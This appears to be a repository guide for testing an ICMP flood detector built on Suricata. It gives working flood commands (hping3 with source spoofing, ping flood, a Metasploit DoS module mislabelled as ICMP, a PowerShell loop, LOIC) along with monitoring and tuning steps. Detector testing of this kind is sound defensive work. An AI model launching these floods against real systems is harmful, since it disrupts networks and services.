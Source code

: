 # ICMP Flood Attack Testing Guide

This guide provides step-by-step instructions for generating ICMP flood attacks from Kali Linux and Windows systems to test the ICMP flood detection system.

## Prerequisites

- A Kali Linux machine or Windows machine with appropriate tools installed
- The target machine running Suricata and the ICMP flood detector
- Both machines on the same network or with network connectivity

## Testing from Kali Linux

### Method 1: Using hping3 (Recommended)

`hping3` is a powerful command-line packet crafting tool that can generate various types of network traffic, including ICMP floods.

1. **Install hping3** (if not already installed):
   ```bash
   sudo apt update
   sudo apt install hping3
   ```

2. **Launch an ICMP flood attack**:
   ```bash
   sudo hping3 -1 --flood -a [SPOOFED_IP] [TARGET_IP]
   ```
   
   Replace:
   - `[SPOOFED_IP]` with an optional source IP to spoof (or remove the `-a` flag to use your real IP)
   - `[TARGET_IP]` with the IP address of your target machine running Suricata

   Example:
   ```bash
   sudo hping3 -1 --flood 192.168.218.100
   ```

3. **Stop the attack** by pressing `Ctrl+C`

### Method 2: Using ping command

For a simpler but less powerful approach:

```bash
ping -f -s 1472 [TARGET_IP]
```

The `-f` flag enables flood mode, and `-s 1472` sets the packet size to maximum.

### Method 3: Using Metasploit

1. **Start Metasploit**:
   ```bash
   sudo msfconsole
   ```

2. **Use the ICMP flood auxiliary module**:
   ```
   use auxiliary/dos/tcp/synflood
   set RHOST [TARGET_IP]
   set SHOST [SPOOFED_IP]  # Optional
   run
   ```

## Testing from Windows

### Method 1: Using PowerShell

1. **Open PowerShell as Administrator**

2. **Create and run an ICMP flood script**:
   ```powershell
   $target = "[TARGET_IP]"
   $ping = New-Object System.Net.NetworkInformation.Ping
   
   for ($i = 0; $i -lt 10000; $i++) {
       $ping.Send($target, 1000, New-Object byte[] 65500)
       Write-Host "Sent packet $i"
   }
   ```

   Replace `[TARGET_IP]` with your target machine's IP address.

### Method 2: Using LOIC (Low Orbit Ion Cannon)

1. **Download LOIC** (Note: Use only in controlled environments and for testing purposes)

2. **Configure and launch attack**:
   - Enter the target IP in the URL field
   - Select "ICMP" as the attack method
   - Set threads to a high number (e.g., 10)
   - Click "IMMA CHARGIN MAH LAZER" to start the attack

### Method 3: Using CMD ping command

For a simple test:

```cmd
ping -t -l 65500 [TARGET_IP]
```

Open multiple command prompts and run this command in each to increase traffic volume.

## Monitoring the Attack

While running the attack, monitor the Suricata logs and ICMP flood detector output:

1. **Watch the eve.json log**:
   ```bash
   sudo tail -f /var/log/suricata/eve.json | grep ICMP
   ```

2. **Monitor the ICMP flood detector**:
   ```bash
   python3 src/icmp_flood_detector_suricata.py --eve-json /var/log/suricata/eve.json --tail --verbose
   ```

## Adjusting Detection Parameters

If the detector is not triggering alerts, you can adjust these parameters:

- `--threshold`: Lower this value (e.g., 5.0) to detect less aggressive floods
- `--window`: Increase this value (e.g., 10) to consider a longer time window
- `--cooldown`: Decrease this value to get more frequent alerts

Example:
```bash
python3 src/icmp_flood_detector_suricata.py --eve-json /var/log/suricata/eve.json --tail --threshold 5 --window 10 --cooldown 30 --verbose
```

## Safety and Legal Considerations

- Only perform these tests on networks and systems you own or have explicit permission to test
- Never target public or production systems
- These techniques are provided for educational and defensive testing purposes only

## Troubleshooting

1. **No ICMP packets in Suricata logs**:
   - Verify Suricata is properly configured to capture ICMP traffic
   - Check firewall rules that might be blocking ICMP
   - Ensure Suricata is monitoring the correct network interface

2. **Attack not detected**:
   - Increase verbosity with `--verbose` flag to see debug information
   - Lower the detection threshold
   - Verify the attack is generating sufficient traffic volume
